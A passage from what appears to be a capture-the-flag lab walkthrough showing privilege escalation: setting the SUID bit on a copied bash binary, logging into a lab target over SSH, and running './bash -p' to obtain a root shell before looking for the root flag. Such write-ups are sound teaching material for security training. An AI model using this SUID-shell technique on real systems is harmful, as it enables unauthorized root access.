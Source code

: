 ```bash
sudo chmod +s bash
```

#### **6. Check Permissions**

Verify that the permissions are set correctly using `ls -la bash`. The output should show the permissions ending with `-rwsr-xr-x`, indicating the SUID bit is set.

```bash
ls -la bash
```

Example output:

```bash
-rwsr-sr-x 1 root root 1234567 Jan 8 23:00 bash
```

#### **7. SSH into the Target Machine**

Log into the target machine using SSH with the credentials you have.

```bash
ssh -i key_name username@10.10.150.50
```

#### **8. Verify Bash Executable Exists**

Once logged in, confirm that the `bash` executable is present in the directory by listing the contents:

```bash
ls -la
```

Make sure the `bash` file is there.

#### **9. Execute the Bash Shell with SUID**

Run the bash shell with the `-p` flag to preserve the permissions:

```bash
./bash -p
```

The `-p` option ensures that the permissions are preserved and that the bash shell runs with root privileges.

#### **10. Gaining Root Access**

Once you've executed the command, you should now have a root shell! You can confirm root access by running:

```bash
whoami
```

You should see `root`.

#### **11. Find the Root Flag**

